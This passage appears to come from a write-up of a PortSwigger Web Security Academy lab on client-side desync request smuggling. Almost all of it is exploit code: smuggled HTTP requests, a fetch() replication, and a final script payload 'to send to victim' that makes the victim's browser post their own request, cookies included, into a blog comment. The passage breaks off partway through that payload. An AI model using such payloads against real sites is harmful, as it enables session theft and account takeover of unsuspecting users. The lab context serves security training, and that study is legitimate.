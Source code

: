 4. Combine these to craft an exploit

**request 1**:
```
POST / HTTP/1.1
Host: 0a22009703bb73a2c21b484400ab00eb.web-security-academy.net
Connection: keep-alive
Content-Length: 554

POST /en/post/comment HTTP/1.1
Host: 0a22009703bb73a2c21b484400ab00eb.web-security-academy.net
Cookie: session=hwUeKh4HGzH0JRhplmzO1AqGTjghpI44; _lab_analytics=V1zlo14KL0l6CZMT7HC5ou1CoTEtACSFxLBI3LCux1khc4JZ9FpQPyaC04RrFOTPZFD0ONUaH1eSdjO2ARZ7UmrlOlZG81BN9fLdarU4ijgp8CVvNdgiDshST0nbgiAVqgMUm2T4UcAkK58hDlFt8iJpv1PUJBlTyNPZ8Gm0CZH2sfJcsiFhFsiXfOvaoNYq5WXd6MrlKIupO2VTOsD1ecPkWMXSWocU5bPM0ZQV4WUvYDRRIqZ7XiCgrEdhY67R
Content-Length: 160

csrf=ZkkNzRQvySXZaQk7VfgMDdDJEiY3pLqr&postId=5&name=test&email=test@gmail.clom&website=http://Abla.com&comment=
```

**request 2**:
```
GET /capture-me HTTP/1.1
Host: 0a22009703bb73a2c21b484400ab00eb.web-security-academy.net


```

5. replicate in browser:
```js
fetch('https://0a22009703bb73a2c21b484400ab00eb.web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a22009703bb73a2c21b484400ab00eb.web-security-academy.net\r\nCookie: session=hwUeKh4HGzH0JRhplmzO1AqGTjghpI44; _lab_analytics=V1zlo14KL0l6CZMT7HC5ou1CoTEtACSFxLBI3LCux1khc4JZ9FpQPyaC04RrFOTPZFD0ONUaH1eSdjO2ARZ7UmrlOlZG81BN9fLdarU4ijgp8CVvNdgiDshST0nbgiAVqgMUm2T4UcAkK58hDlFt8iJpv1PUJBlTyNPZ8Gm0CZH2sfJcsiFhFsiXfOvaoNYq5WXd6MrlKIupO2VTOsD1ecPkWMXSWocU5bPM0ZQV4WUvYDRRIqZ7XiCgrEdhY67R\r\nContent-Length: 1128\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=ZkkNzRQvySXZaQk7VfgMDdDJEiY3pLqr&postId=5&name=test&email=test@gmail.com&website=https://portswigger.net&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0a22009703bb73a2c21b484400ab00eb.web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```
6. final payload in exploit to send to victim:
```htm
<script>
fetch('https://0a22009703bb73a2c21b484400ab00eb.web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a22009703bb73a2c21b484400ab00eb.web-security-academy.net\r\nCookie: session=hwUeKh4HGzH0JRhplmzO1AqGTjghpI44; _lab_analytics=V1zlo14KL0l6CZMT7HC5ou1CoTEtACSFxLBI3LCux1khc4JZ9FpQPyaC04RrFOTPZFD0ONUaH1eSdjO2ARZ7UmrlOlZG81BN9fLdarU4ijgp8CVvNdgiDshST0nbgiAVqgMUm2T4UcAkK58hDlFt8iJpv1PUJBlTyNPZ8Gm0CZH2sfJcsiFhFsiXfOvaoNYq5WXd6MrlKIupO2VTOsD1ecPkWMXSWocU5bPM0ZQV4WUvYDRRIqZ7XiCgrEdhY67R\r\nContent-Length: 1128\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=ZkkNzRQvySXZaQk7VfgMDdDJEiY3pLqr&postId=5&name=test&email=test@gmail.com&website=https://portswigger.net&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0a22009703bb73a2c21b484400ab00eb.web-security-academy.net/capture-me', {
        mode: 'no-cors',
```